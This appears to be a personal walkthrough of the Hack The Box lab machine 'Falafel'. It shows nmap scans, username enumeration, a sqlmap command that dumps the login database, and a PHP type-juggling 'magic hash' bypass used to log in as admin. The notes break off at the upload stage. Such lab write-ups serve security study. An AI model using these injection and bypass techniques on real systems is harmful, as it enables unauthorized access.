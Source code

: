 ##### nmap

All port scan
```bash
sudo nmap -sV -p- -v 10.10.10.73 -oA nmap2
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Service scan
```bash
sudo nmap -sC -sV 10.10.10.73 -p 22,80 -v -oA nmap 
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 36:c0:0a:26:43:f8:ce:a8:2c:0d:19:21:10:a6:a8:e7 (RSA)
|   256 cb:20:fd:ff:a8:80:f2:a2:4b:2b:bb:e1:76:98:d0:fb (ECDSA)
|_  256 c4:79:2b:b6:a9:b7:17:4c:07:40:f3:e5:7c:1a:e9:dd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Falafel Lovers
|_http-favicon: Unknown favicon MD5: B8A9422F95F0D71B26D25CE15206BB79
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/*.txt
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

##### manual

- Added `falafel.htb` to `/etc/hosts`
- Found /cyberlaw.txt using gobuster
![[Pasted image 20240904123354.png]]
- Tested the login.php page and tried different usernames and found `admin` & `chris` as valid usernames
- Cyberlaw.txt says that `chris` was able to log in without a password which indicates it could be vulnerable to SQL injection
- Running SQLmap
```bash
sqlmap -r r.txt --risk=3 --level=5 --batch --string "Wrong identification" -p username
```
- dbs
![[Pasted image 20240904123559.png]]
- tables
![[Pasted image 20240904123644.png]]
- table dump
![[Pasted image 20240904123740.png]]

`chris` has set password to `juggling`
![[Pasted image 20240904123842.png]]

Took reference from a walkthrough, but it mentions emphasis on juggling part and I found [PHP Type Juggling](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md)
 ## Magic Hashes

> Magic hashes arise due to a quirk in PHP's type juggling, when comparing string hashes to integers. If a string hash starts with "0e" followed by only numbers, PHP interprets this as scientific notation and the hash is treated as a float in comparison operations.

Our admin hash also starts with 0e followed by only numbers.
![[Pasted image 20240904133037.png]]
Using the Magic Number `240610708`, I was able to log in as `admin`

When a valid URL is given, we get output 
![[Pasted image 20240904133331.png]]
